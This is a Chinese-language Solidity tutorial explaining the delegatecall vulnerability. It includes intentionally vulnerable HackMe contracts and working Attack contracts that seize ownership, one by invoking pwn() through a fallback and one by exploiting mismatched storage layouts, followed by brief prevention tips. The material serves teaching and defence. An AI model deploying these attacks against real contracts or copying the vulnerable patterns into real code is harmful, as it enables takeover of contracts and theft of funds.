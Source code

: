 # 70.delegatecall
Solidity的delegatecall漏洞是一种安全漏洞，可以允许攻击者通过调用另一个合约的方法来执行恶意代码。这种漏洞的根本原因是delegatecall的实现方式，该实现方式将调用的代码的上下文（存储、地址等）与调用方的合约合并在一起，从而可能导致意外的行为。
## 漏洞
delegatecall的使用很棘手，错误的使用或不正确的理解可能会导致灾难性的结果。
在使用delegatecall时，您必须记住两件事：
1. delegatecall保留上下文（存储，调用者等...）
2. 调用delegatecall的合约和被调用的合约的存储布局必须相同。
合约例子
* Lib合约。
它有一个公共变量 "owner"，代表合约的拥有者地址。合约中有一个公共函数 "pwn()"，当该函数被调用时，会将合约的拥有者地址设置为调用该函数的地址。
```solidity
contract Lib {
    address public owner;

    function pwn() public {
        owner = msg.sender;
    }
}
```

* HackMe合约
它有一个公共变量owner，表示合约的所有者地址，以及一个名为lib的公共变量，表示该合约依赖的Lib合约。
由于delegatecall()函数的特性，如果lib合约中存在恶意代码，则可以利用fallback()函数将其调用到当前合约中，并在当前合约的上下文中执行。因此，该合约存在安全隐患，可能被黑客攻击。
```solidity
contract HackMe {
    address public owner;
    Lib public lib;
    
    //构造函数中，传入一个Lib类型的参数_lib，并将msg.sender赋值给owner，将_lib强制转换为Lib类型并赋值给lib变量
    constructor(Lib _lib) {
        owner = msg.sender;
        lib = Lib(_lib);
    }
    //fallback()函数中，使用delegatecall()函数调用lib合约，并将msg.data作为参数传递给它。
    fallback() external payable {
        address(lib).delegatecall(msg.data);
    }
}
```
HackMe是一个使用delegatecall执行代码的合约。由于HackMe内部没有更改所有者的功能，因此更改所有者并不明显。但攻击者可以通过利用delegatecall来劫持合约。让我们看看如何实现。

1. Alice部署了Lib。
2. Alice使用Lib的地址部署了HackMe。
3. Eve使用HackMe的地址部署了Attack。
4. Eve调用Attack.attack()。
5. 现在Attack是HackMe的所有者。

发生了什么？

Eve调用了Attack.attack()。
Attack调用了HackMe的fallback函数，并发送了pwn()函数的函数选择器。
HackMe使用delegatecall将调用转发到Lib。
在这里，msg.data包含pwn()函数的函数选择器。
这告诉Solidity在Lib内部调用函数pwn()。
函数pwn()将所有者更新为msg.sender。
Delegatecall使用HackMe的上下文运行Lib的代码。
因此，HackMe的存储被更新为msg.sender，其中msg.sender是HackMe的调用者，即Attack。

```solidity
contract Attack {
    address public hackMe;

    constructor(address _hackMe) {
        hackMe = _hackMe;
    }

    function attack() public {
        hackMe.call(abi.encodeWithSignature("pwn()"));
    }
}
```
这是另一个例子。
在你理解这个漏洞之前，你需要了解Solidity如何存储状态变量。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

/*
这是前一个漏洞的更复杂版本。

1. Alice部署Lib和HackMe，并将Lib的地址传递给它们
2. Eve部署Attack并将HackMe的地址传递给它
3. Eve调用Attack.attack()
4. 现在Attack是HackMe的所有者

发生了什么？
请注意，Lib和HackMe中的状态变量没有以相同的方式定义。这意味着调用Lib.doSomething()将更改HackMe内的第一个状态变量，该变量恰好是lib的地址。

在attack()函数内，第一次调用doSomething()会更改存储在HackMe中的lib地址。现在，lib的地址被设置为Attack。

第二次调用doSomething()会调用Attack.doSomething()，在这里我们更改了所有者。
*/

contract Lib {
    uint public someNumber;

    function doSomething(uint _num) public {
        someNumber = _num;
    }
}

contract HackMe {
    address public lib;
    address public owner;
    uint public someNumber;

    constructor(address _lib) {
        lib = _lib;
        owner = msg.sender;
    }

    function doSomething(uint _num) public {
        lib.delegatecall(abi.encodeWithSignature("doSomething(uint256)", _num));
    }
}

contract Attack {
    // 确保存储布局与HackMe相同
    // 这将使我们能够正确地更新状态变量。
    address public lib;
    address public owner;
    uint public someNumber;

    HackMe public hackMe;

    constructor(HackMe _hackMe) {
        hackMe = HackMe(_hackMe);
    }

    function attack() public {
        // 覆盖lib的地址
        hackMe.doSomething(uint(uint160(address(this))));
        // 如果将任何数字作为输入传递，下面的函数doSomething()将被调用。
        hackMe.doSomething(1);
    }

    // 函数签名必须与HackMe.doSomething()匹配。
    function doSomething(uint _num) public {
        owner = msg.sender;
    }
}
```
### 预防性技术
* 使用无状态库
* 为了避免这种漏洞，开发人员应该避免在智能合约中使用delegatecall，并始终使用call或send来调用其他合约的函数。此外，开发人员还应该谨慎处理来自外部合约的数据，并使用安全的输入验证和过滤机制来防止攻击者利用漏洞。
  
## remix验证
1. 部署合约Lib和HackMe以及Attack，在Attack合约中调用attack（）函数，Hackme合约owner被修改为Attack地址。
![70-1.png](./img/70-1.png)
2. 部署合约Lib和HackMe以及Attack，在Attack合约中调用attack（）函数，Hackme合约owner被修改为Attack地址。在attack()函数内，第一次调用doSomething()会更改存储在HackMe中的lib地址。现在，lib的地址被设置为Attack，第二次调用doSomething()会调用Attack.doSomething()，owner被修改。
![70-2.png](./img/70-2.png)
